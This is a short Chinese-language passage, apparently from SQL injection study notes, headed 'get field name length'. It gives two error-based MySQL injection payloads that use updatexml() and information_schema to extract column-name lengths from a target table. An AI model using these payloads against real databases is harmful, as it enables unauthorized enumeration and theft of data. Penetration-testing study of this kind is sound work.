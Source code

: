 #### 获取字段名长度

```mysql
# 获取某个字段的字段名长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(column_name))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名') limit 第x个字段,1),0x7e),1)
```

![image-20250222162422892](static/image/image-20250222162422892.png)

```mysql
# 获取输出所有字段名的字符串长度
updatexml(1,concat(0x7e,(SELECT(LENGTH(group_concat(column_name)))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名')),0x7e),1)
```
